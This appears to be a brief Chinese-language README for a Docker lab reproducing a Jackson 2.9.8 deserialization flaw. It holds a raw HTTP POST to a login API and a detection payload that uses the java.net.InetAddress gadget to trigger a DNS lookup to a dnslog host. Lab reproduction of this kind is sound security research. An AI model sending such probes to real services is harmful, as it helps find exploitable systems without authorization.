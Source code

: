 # lab

## jackson rce复现
jackson版本为2.9.8

```
docker build -t jackson_rce .
docker run -p 8090:8090 jackson_rce
```
访问
http://127.0.0.1:8090
登录包存在漏洞
```
POST /api/login HTTP/1.0
Host: 127.0.0.1:8090
Content-Type: application/json
Content-Length: 73

["java.net.InetAddress","dnslog地址"]
```

探测poc:
```
["java.net.InetAddress","wbbyrkxyiqthtcfm6va0l78syj4cs2gx6lw8mwb.b.huskpup.com"]
```
